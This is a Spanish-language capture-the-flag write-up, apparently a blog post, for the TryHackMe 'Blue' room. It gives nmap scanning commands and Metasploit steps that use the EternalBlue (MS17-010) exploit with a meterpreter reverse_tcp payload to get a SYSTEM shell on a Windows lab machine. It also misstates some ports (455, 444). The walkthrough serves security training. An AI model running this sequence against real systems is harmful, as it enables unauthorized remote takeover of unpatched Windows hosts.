 ```yaml
---
title : MQ|Blue|THM|SMB|ETERNALBLUE
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/blue/blue.gif" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/blue" style="color: lightblue;">Blue</a></p>
    </div>
</div>

<h2><font color="white"><center># Blue</center></font></h2>
* <p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254

<img src="/imgs/blue/blue0.jpg"/>
* <p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports

<img src="/imgs/blue/blue1.jpg"/>
* <p>tiene el puerto smb abierto 455 veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254

<img src="/imgs/blue/blue2.jpg"/>
* <p>Al paracer es vulnerable a ( ms17-010 EternalBlue ), ahora explotemos conmsfconsole, usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue

<img src="/imgs/blue/blue3.jpg"/>
* <p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp

<img src="/imgs/blue/blue4.jpg"/>
* <p>Indicamos la ip de la maquina victima con set rhosts.</p>

<img src="/imgs/blue/blue5.jpg"/>
* <p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>

<img src="/imgs/blue/blue6.jpg"/>
* <p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>

<img src="/imgs/blue/blue7.jpg"/>
* <p>Seguidamente ejecutamos exploit para iniciar el ataque.</p>

<img src="/imgs/blue/blue8.jpg"/>
* <p>Listo si ejecuta el comando Shell, y pone whoami sera autority system.</p>


